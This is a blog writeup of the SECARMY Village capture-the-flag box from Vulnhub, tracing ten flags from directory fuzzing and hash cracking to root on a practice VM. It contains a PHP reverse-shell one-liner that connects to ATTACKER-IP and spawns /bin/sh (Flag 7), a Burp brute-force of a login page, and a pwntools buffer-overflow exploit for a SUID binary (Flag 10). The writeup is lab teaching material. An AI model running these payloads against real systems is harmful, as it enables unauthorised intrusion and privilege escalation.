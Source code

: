 ```yaml
---
date: 2020-11-05 19:47:51
layout: post
title: "SECARMY CTF OSCP box"
description: "Writeup of the SECARMY CTF OSCP giveaway box"
image: /assets/img/secarmy-village-0.png
optimized_image: /assets/img/secarmy-village-0.png
category: blog
tags:
  - ctf
  - reversing
  - pwn
  - privilege_escalation

author: trollzorftw
---
```


### Context
This is a writeup for SECARMY's CTF OSCP box. The contest has ended, but you can find the VM on Vulnhub: [Download Page](https://www.vulnhub.com/entry/secarmy-village-grayhat-conference,585/)


### Flag 1
```bash
curl http://192.168.100.33
```
This gives us the following information: "You are required to find our hidden directory and make your way into the machine."

So naturally I throw a dirbust with common.txt wordlist at it:
```bash
ffuf -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.100.33/FUZZ

anon                    [Status: 301, Size: 315, Words: 20, Lines: 10]

curl http://192.168.100.33/anon/
```

Giving us the credentials for uno user:
```html
<font color="white">uno:luc10r4m0n</font>
```

### Flag 2
We read readme.txt and we get: 
"You surely can guess the username , the password will be: 4b3l4rd0fru705"

We try escalation to ``dos`` with password ``4b3l4rd0fru705`` and we get access


After reading readme.txt we run the following command:


```bash
cd ./files && grep -r a8211ac1853a1235d48829414626512a

file4444.txt:a8211ac1853a1235d48829414626512a
```

Opening file4444.txt tells us to: Look inside file3131.txt

file3131.txt gives us a base64 encoded text which decoded gives us a zip file to get flag and the next todo instructions:

```bash
echo "UEsDBBQDAAAAADOiO1EAAAAAAAAAAAAAAAALAAAAY2hhbGxlbmdlMi9QSwMEFAMAAAgAFZI2Udrg
tPY+AAAAQQAAABQAAABjaGFsbGVuZ2UyL2ZsYWcyLnR4dHPOz0svSiwpzUksyczPK1bk4vJILUpV
L1aozC8tUihOTc7PS1FIy0lMB7LTc1PzSqzAPKNqMyOTRCPDWi4AUEsDBBQDAAAIADOiO1Eoztrt
dAAAAIEAAAATAAAAY2hhbGxlbmdlMi90b2RvLnR4dA3KOQ7CMBQFwJ5T/I4u8hrbdCk4AUjUXp4x
IsLIS8HtSTPVbPsodT4LvUanUYff6bHd7lcKcyzLQgUN506/Ohv1+cUhYsM47hufC0WL1WdIG4WH
80xYiZiDAg8mcpZNciu0itLBCJMYtOY6eKG8SjzzcPoDUEsBAj8DFAMAAAAAM6I7UQAAAAAAAAAA
AAAAAAsAJAAAAAAAAAAQgO1BAAAAAGNoYWxsZW5nZTIvCgAgAAAAAAABABgAgMoyJN2U1gGA6WpN
3pDWAYDKMiTdlNYBUEsBAj8DFAMAAAgAFZI2UdrgtPY+AAAAQQAAABQAJAAAAAAAAAAggKSBKQAA
AGNoYWxsZW5nZTIvZmxhZzIudHh0CgAgAAAAAAABABgAAOXQa96Q1gEA5dBr3pDWAQDl0GvekNYB
UEsBAj8DFAMAAAgAM6I7USjO2u10AAAAgQAAABMAJAAAAAAAAAAggKSBmQAAAGNoYWxsZW5nZTIv
dG9kby50eHQKACAAAAAAAAEAGACAyjIk3ZTWAYDKMiTdlNYBgMoyJN2U1gFQSwUGAAAAAAMAAwAo
AQAAPgEAAAAA" | base64 -d > flag2.zip

unzip flag2.zip && cat ./challenge2/flag2.txt
```


### Flag 3
We obtain a super secret token from the previous archive and use it on 1337 port:

```bash
echo "c8e6afe38c2ae9a0283ecfb4e1b7c10f7d96e54c39e727d0e5515ba24a4d1f1b" | nc 192.168.100.33 1337
```

Which gives us:
```
 Welcome to SVOS Password Recovery Facility!
 Enter the super secret token to proceed: 
 Here's your login credentials for the third user ``tres:r4f43l71n4j3r0``
```

### Flag 4
We get a binary which we need to reverse.

Using gdb-peda as our reverse tool, we run the binary and close it (Ctrl+C) when it prompts us to enter the key. 

Because I was unable to breakpoint anywhere in the main function, I tried to find ``keywords`` that might be in the binary.

The command ``find 'credentials'`` in gdb-peda shell worked and I got:

```bash
mapped : 0x7ffff7ffb09b ("credentials for the fourth user cuatro:p3dr00l1v4r3z")
```

### Flag 5
The todo.txt tells us to go to ``/justanothergallery`` on the webserver

After analyzing a little bit we get a bunch of qr images in: ``http://192.168.100.33/justanothergallery/qr/``


Downloading them all and decoding the qr codes with a simple python script gives us the next credentials and flag:
```python
from PIL import Image
from pyzbar.pyzbar import decode
import sys

imgs = []
for i in range(69):
	imgs.append('image-{}.png'.format(i))

decoded_text = ''

for img in imgs:
	data = str(decode(Image.open(img))[0]).split("data=b'")[1].split("',")[0]
	decoded_text += data + ' '

print(decoded_text)
```

Result:
```
Hello and congrats for solving this challenge, 
we hope that you enjoyed the challenges we presented so far. 
It is time for us to increase the difficulty level and make 
the upcoming challenges more challenging than previous ones. 
Before you move to the next challenge, here are the credentials 
for the 5th user: cinco:ruy70m35 
head over to this user and get your 5th flag! goodluck for the upcoming challenges!
```

### Flag 6
Reading readme.txt points us to /cincos-secrets/ here we'll get a shadow.bak file but is not readable. Changing the permissions will give us a hash:

```bash
chmod 444 shadow.bak && cat shadow.bak | grep seis

seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::
```

Cracking the hash gives us the password ``Hogwarts`` , so the credentials are: ``seis:Hogwarts``


### Flag 7
The readme.txt file gives us the following path: "head over to ``/shellcmsdashboard`` webpage and find the credentials!".

I decided to bruteforce login with BurpSuite sniper attack with first 100  ``rockyou.txt`` passwords.

The only password with a different length than the other ones was ``qwerty``.

Logged in and got the message: ``head over to /aabbzzee.php`` 

This page will give us an easy command injection box where we will get a reverse shell from.

My payload: 
```bash
php -r '$sock=fsockopen("ATTACKER-IP",LISTEN-PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Netcat reverse shell on LISTEN-PORT on the attacker box:

```bash
nc -nvlp LISTEN-PORT
```
Getting ``www-data`` shell which gives us the seventh user password: ``6u1l3rm0p3n473``


### Flag 8
After playing around with the message, I discovered that xoring "x" with every number in message.txt will give us the password. I created a small python script to extract it:

```python
message = [11, 29, 27, 25, 10, 21, 1, 0, 23, 10, 17, 12, 13, 8]
extracted = ''
for key in message:
  extracted += chr(ord('x')^key)

print(extracted)

Output:secarmyxoritup
```


### Flag 9
We are presented with a pcapng file. Opening it up with wireshark we will get a tcp stream that has a LOT of text in which ``QWERTY`` is repeated several times. Also, there were some DNS queries to ``dcode.fr``.

We obtain a password from the long text: ``mjwfr?2b6j3a5fx/c.``


Using keyboard shift cipher on [dcode.fr](https://www.dcode.fr/keyboard-shift-cipher) with settings: 

	-QWERTY(US) 

	-Shift Right + Clockwise rotation

Result:
```
nueve:355u4z4rc0
```


### Flag 10
We have a suid set binary, so we will need to exploit it to get root. Reversing it and creating a small python exploit script will do the trick:

```python
from pwn import *

io = process("./orangutan")
io.recvline("pwnme if u can ;)")
junk = b"A" * 24
payload = junk + p64(0xcafebabe)
io.sendline(payload)
io.interactive()
```